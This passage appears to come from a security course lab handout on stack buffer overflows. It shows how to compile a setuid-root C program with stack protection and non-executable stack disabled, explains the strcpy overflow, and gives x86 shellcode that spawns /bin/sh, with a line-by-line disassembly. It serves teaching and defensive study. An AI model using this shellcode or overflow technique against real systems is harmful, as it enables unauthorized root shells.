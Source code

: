 - **Stack guard**. To deactivate this, we need to pass the `-fno-stack-protector` option to `gcc` when we compile our program.
- **Non-executable stack**. To deactivate this, we need to pass the `-z execstack` option to `gcc` when we compile our program.

Compile the `stack.c` program from this lab's folder with:

```bash
$ gcc -g -z execstack -fno-stack-protector stack.c -o stack
$ cp stack stack-root
$ sudo chown root stack-root
$ sudo chmod 4755 stack-root
```

Have a look at the source code.
The program is set to read a file `badfile` (this use of a file means we don't have to worry as much about control characters like in the last lab) and copies it into a buffer.
But while the `fread` command is limited to 517 bytes, line 14:

```C
strcpy(buffer, str);
```

... runs until it sees a `0x00` byte, yet copies into a buffer that is only 24 bytes long.
This is an obvious overflow vulnerability.

Make a file called `shellcode` and paste the following values:

```
31 c0 50 68 2f 2f 73 68
68 2f 62 69 6e 89 e3 50
53 89 e1 99 b0 0b cd 80
```

Then run `xxd -p -r shellcode > badfile` to hex-decode it to the file that the vulnerable program will read.
Whenever you modify your shellcode, rerun this command.

Let's take a look at what it does:

```
31 c0 xorl %eax, %eax ; clear eax
50 pushl %eax ; put a 0-pointer on the stack
68 2f 2f 73 68 pushl "//sh" ; the command to call
68 2f 62 69 6e pushl "/bin"
89 e3 movl %esp, %ebx ; ebx points at the command
50 pushl %eax ; another 0-pointer
53 pushl %ebx ; points at the command
89 e1 movl %esp, %ecx ; pointer to pointer to command
99 cdq ; this zeroes out edx
b0 0b movb $0x0b, %al ; execve syscall number
cd 80 int $0x80 ; syscall
```

We store `/bin//sh` with an extra `/` (that `execve` doesn't mind) since the `0x68` (`pushl`) instruction takes a 4-byte argument, and we don't want to include an `0x00` byte in our shellcode.
When we call `int 0x80`, the stack and registers look like this:
